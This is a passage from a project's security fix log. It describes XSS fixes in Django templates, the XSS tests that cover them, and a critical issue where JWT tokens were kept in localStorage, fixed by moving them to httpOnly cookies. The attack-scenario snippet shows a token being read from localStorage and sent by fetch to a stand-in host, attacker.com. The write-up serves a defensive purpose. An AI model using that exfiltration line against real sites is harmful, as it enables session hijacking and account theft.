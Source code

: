 3. **Django template fixes:**
   - Removed 2 unsafe `|safe` filters
   - Enabled auto-escaping globally

#### Testing
- **Test File:** `apps/api/tests/test_xss_protection.py`
- **Test Coverage:** 23 tests (one per fixed vulnerability)
- **Test Scenarios:**
  - `<script>` tag injection
  - `javascript:` protocol injection
  - `onerror` attribute injection
  - SVG-based XSS
- **Status:** ✅ All passing

#### References
- **Issue:** #4
- **OWASP:** [A03:2021 - Injection (XSS)](https://owasp.org/Top10/A03_2021-Injection/)
- **CWE:** CWE-79 (Cross-site Scripting)

---

### CVE-2024-JWT-003: JWT Tokens in localStorage
**Severity:** 🔴 CRITICAL
**CVSS Score:** 8.5/10
**Status:** ✅ FIXED
**Pull Request:** #15
**Fix Date:** October 2025

#### Vulnerability Description
JWT access and refresh tokens were stored in browser localStorage, making them accessible to:
- XSS attacks (JavaScript can read localStorage)
- Browser extensions
- Third-party scripts
- Malware

This violated OWASP best practices for token storage.

#### Attack Scenario
```javascript
// Before: Tokens in localStorage
localStorage.setItem('access_token', jwt_token);  // ❌ Accessible to XSS

// XSS attack can steal tokens
const stolen = localStorage.getItem('access_token');
fetch('https://attacker.com/steal?token=' + stolen);
```

#### Fix Implementation
1. **Migrated to httpOnly cookies:**
   ```python
   # apps/api/views/auth.py
   def set_auth_cookies(response, user):
       """Set JWT tokens in secure httpOnly cookies."""
       access_token = get_access_token(user)
       refresh_token = get_refresh_token(user)

       response.set_cookie(
           'access_token',
           access_token,
           httponly=True,      # Not accessible to JavaScript
           secure=True,        # HTTPS only
           samesite='Lax',     # CSRF protection
           max_age=3600        # 1 hour
       )

   ```